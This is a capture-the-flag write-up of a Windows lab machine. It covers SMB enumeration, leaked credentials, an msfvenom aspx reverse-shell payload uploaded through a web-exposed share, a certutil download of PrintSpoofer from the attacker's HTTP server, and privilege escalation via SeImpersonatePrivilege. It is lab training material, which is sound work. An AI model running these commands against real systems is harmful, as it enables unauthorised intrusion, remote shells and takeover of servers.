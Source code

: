 Use https://github.com/dievus/threader3000 to do port scan and later scan with nmap for detailed scan:
```sh
threader3000
```

While it's running and shows some of the open ports we can parallely start looking at some of the ports. E.g. smb is open. Use smbclient to enumerate:
```sh
smbclient -L \\\\10.10.230.202
```

We get shares as below:

DragExtra keys
Clipboard
Clipboard
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
nt4wrksv        Disk      

We got a web share nt4wrksv. We can try to access it like below:
```
smbclient \\\\10.10.230.202\\nt4wrksv
smb>dir
smb>more passwords.txt
```

We can try evil-winrm with these credentials:
```
evil-winrm -i 10.10.230.202 -u 'Bob' -p '!P@$$W0rD!123'
```

We see that it's not a good credentials. So we have to realise that there could be some misdirections and at some point we have to try something else.

If we run the nmap scan suggested by threader3000, we see that there is one more port (49663) that is running IIS. We can eumenrate that and try gobuster.
Running gobuster reveals nt4wrksv directory and has passwords.txt file. Which is interesting, we can try uploading our own file using smb and see if we can access
it through webserver. So effectively we have uploads right to webserver.

We can use this website to build msfvenom command:
https://pentest.ws/tools/venom-builder

```sh
msfvenom -p windows/x64/shell/reverse_tcp LHOST=10.10.131.125 LPORT=4444 -f aspx -o rev.aspx
```

We get a reverse shell if we access this file from web. If we do whoami, we see below:
```
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

In windows there was a vulnerability discovered calle [PrintSpoofer](https://github.com/itm4n/PrintSpoofer), which is a vulnerability in windows server 2016, 2019 and windows 10, that allowed service accounts to on occasion be able to access the system user. Microsoft thought that it was important for certain service accounts to be able to do so. The way they do that is through **SeImpersonatePrivilege**. We can check if our account has that:
```
c:\windows\system32\inetsrv>whoami /priv
```

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

So what we can do is on attacker machine download printspoofer.exe and serve using python htttp server and from reverse shell run below:
```
c:\windows\system32\inetsrv>cd C:\intetpub\wwwroot
c:\intetpub\wwwroot>certutil -urlcache -f http://10.10.131.125:8000/PrintSpoofer.exe printspoofer.exe
```

Or use smbclient and push:
```
smbclient \\\\10.10.230.202\\nt4wrksv
smb>put PrintSpoofer.exe
```

Then run printspoofer from reverse shell like below:
```
c:\intetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
```

Goal of this challenge is "Try harder mentality only goes so far". You can't try harder for forever eventually you need to adapt to your findings and try something else.

